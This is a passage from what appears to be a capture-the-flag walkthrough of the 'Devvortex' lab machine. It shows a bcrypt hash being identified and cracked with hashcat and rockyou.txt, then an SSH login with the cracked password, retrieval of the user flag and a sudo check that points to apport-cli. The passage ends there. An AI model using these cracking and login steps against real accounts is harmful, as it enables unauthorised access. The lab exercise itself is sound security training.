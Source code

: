 ```bash
hashid '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'

[+] Blowfish(OpenBSD)                                                                                                                                                                                                                       
[+] Woltlab Burning Board 4.x                                                                                                                                                                                                               
[+] bcrypt


# 3200 blowfish

hashcat -m 3200 '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' /usr/share/wordlists/rockyou.txt

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

I'll try to login as Logan using ssh.

```bash
ssh logan@devvortex.htb 
tequieromucho
```

![sshL](IMG/img10.png)

It worked! Now we can get the user flag.

```bash
cat ~/user.txt
```

## We got the user flag!

## Privilege Escalation

Let's see if we can run anything as the root user.

```bash
sudo -l

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

And we can. I will get the binary on my machine and analyze it.
